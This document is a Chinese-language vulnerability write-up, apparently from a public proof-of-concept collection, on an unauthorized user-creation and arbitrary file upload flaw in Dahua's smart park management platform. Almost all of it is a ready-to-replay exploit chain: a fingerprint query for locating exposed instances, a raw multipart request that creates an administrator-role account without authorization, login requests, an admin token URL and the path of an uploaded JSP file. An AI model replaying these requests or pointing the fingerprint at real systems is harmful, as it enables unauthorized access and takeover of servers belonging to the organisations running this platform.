




# 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现



验证POC

```
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```


```
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```



```
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```



```
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```



```
/upload/axqvssmz.jsp
```

